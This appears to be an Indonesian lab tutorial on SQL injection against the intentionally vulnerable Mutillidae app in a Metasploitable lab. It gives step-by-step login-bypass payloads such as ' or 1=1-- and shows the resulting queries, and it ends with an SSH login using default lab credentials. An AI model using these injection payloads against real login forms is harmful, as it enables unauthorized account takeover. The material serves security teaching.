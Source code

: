 Lesson 5
--------
### SQL Injection: Single Quote Test On Username Field
- **Step 1**    : Buka Login/Register
    ![](/assets/lesson-5/login-register.png)
- **Step 2**    : Ketik `'` di kolom **Name**    
- **Step 3**    : Klik Login
    ![](/assets/lesson-5/quote_test.png)
- **Step 4**    : Anda akan mendapatkan error, jika terjadi error setelah anda login dengan **Name** `'`, berarti backend dari sistem rentan terhadap SQL Injection
    ![](/assets/lesson-5/quote_test_error.png)
    - Query yang dihasilkan:
    ```
    SELECT * FROM accounts WHERE username=''' AND password=''
    ```
    - Query Normal:
    ```
    SELECT * FROM accounts WHERE username='admin' AND password='adminpass'
    ```
    
### SQL Injection: By-Pass Password Without Username (Obtain Access #1)
- **Step 1**    : Buka Login/Register
- **Step 2**    : Ketik `' or 1=1-- ` di kolom **Name** dengan spasi di akhir `-- `
- **Step 3**    : Klik Login
    ![](/laporan-1/assets/lesson-5/login2.png)
- **Step 4**    : Anda akan berhasil login dengan akun Admin karena Admin berada pada urutan paling atas pada database. Dengan kondisi `1=1` maka akan menghasilkan kondisi yang selalu benar dan `-- ` berguna untuk comment pada SQL, karena itu query selanjutnya akan dibatalkan **(AND password='')**.
    ![](/laporan-1/assets/lesson-5/login2_berhasil.png)
    - Query yang dihasilkan:
    ```
    SELECT * FROM accounts WHERE username='' or 1=1-- ' AND password=''
    ```
    - Query yang sebenarnya dikerjakan:
    ```
    SELECT * FROM accounts WHERE username='' or 1=1
    ```
    
### SQL Injection: Single Quote Test On Password Field
- **Step 1**    : Buka Login/Register.
- **Step 2**    : Ketik `samurai` di kolom **Name**.
- **Step 3**    : Klik Kanan di kolom **Password**.
- **Step 4**    : Klik **Inspect Element**.
    ![](/laporan-1/assets/lesson-5/inspect-element-password.png)
- **Step 5**    : Ganti `password` dengan kata `text` pada element **type**.
    ![](/laporan-1/assets/lesson-5/inspect-password-to-text.png)
- **Step 6**    : Ketik `'` di kolom **Password**.
- **Step 7**    : Klik Login. Perhatikan kolom password sudah tidak lagi tersensor dengan bintang karena **type** sudah diganti menjadi `text`.
    ![](/laporan-1/assets/lesson-5/inspect-password-not-obfuscated.png)
    - Anda akan mendapatkan error
        ![](/laporan-1/assets/lesson-5/password-login-error.png)
    - Query di backend menjadi error, mengindikasikan bahwa backend dari sistem rentan terhadap SQL Injection.
    - Query yang dihasilkan:
        ```
        SELECT * FROM accounts WHERE username='samurai' and password='''
        ```
    - Query Normal:
        ```
        SELECT * FROM accounts WHERE username='samurai' AND password='samurai'
        ```
        
### SQL Injection: Single Quote Test On Password Field (Obtain Access #2)
- **Step 1**    : Buka Login/Register.
- **Step 2**    : Ketik `samurai` di kolom **Name**.
- **Step 3**    : Klik Kanan di kolom **Password**.
- **Step 4**    : Klik **Inspect Element**.
    ![](/laporan-1/assets/lesson-5/inspect-element-password.png)
- **Step 5**    : Ganti `password` dengan kata `text` pada element **type**.
    ![](/laporan-1/assets/lesson-5/inspect-password-to-text.png)
- **Step 6**    : Ketik `' or 1=1-- ` di kolom **Password**. Jangan lupa memberikan spasi setelah `-- `
- **Step 7**    : Klik Login. Perhatikan kolom password sudah tidak lagi tersensor dengan bintang karena **type** sudah diganti menjadi `text`.
    ![](/laporan-1/assets/lesson-5/non-obfused-pass-1.png)
    - Anda akan tetap terlogin sebagai admin bukan samurai, Karena Admin berada pada urutan atas dari hasil query. Hal ini disebabkan oleh desain dari program Multilidae.
    ![](/laporan-1/assets/lesson-5/password-login-admin.png)
- **Step 8**    : Logout

### SQL Injection: Single Quote Test On Password Field (Obtain Access #3)
- **Step 1**    : Buka Login/Register.
- **Step 2**    : Ketik `samurai` di kolom **Name**.
- **Step 3**    : Klik Kanan di kolom **Password**.
- **Step 4**    : Klik **Inspect Element**.
    ![](/laporan-1/assets/lesson-5/inspect-element-password.png)
- **Step 5**    : Ganti `password` dengan kata `text` pada elemen **type**. Ganti elemen maxlength menjadi `50` dan elemen size menjadi `50`
    ![](/laporan-1/assets/lesson-5/inspect-password-size.png)
- **Step 6**    : Ketik `' or (1=1 and username='samurai')-- ` di kolom **Password**. Jangan lupa memberikan spasi setelah `-- `
- **Step 7**    : Klik Login. Perhatikan kolom password sudah tidak lagi tersensor dengan bintang karena **type** sudah diganti menjadi `text`.
    ![](/laporan-1/assets/lesson-5/non-obfused-pass-2.png)
    - Anda akan berhasil login sebagai `samurai`
    ![](/laporan-1/assets/lesson-5/samurai-logged-in.png)
    - Query yang dihasilkan
    ```
    SELECT * FROM accounts WHERE username='samurai' AND password='' or (1=1 and username='samurai')-- '
    ```

### Database Practice
- **Step 1**    : SSH Metasploitable dengan username `msfadmin` dan password `msfadmin`.
    ```
    ssh msfadmin@10.151.36.64
    ```





    
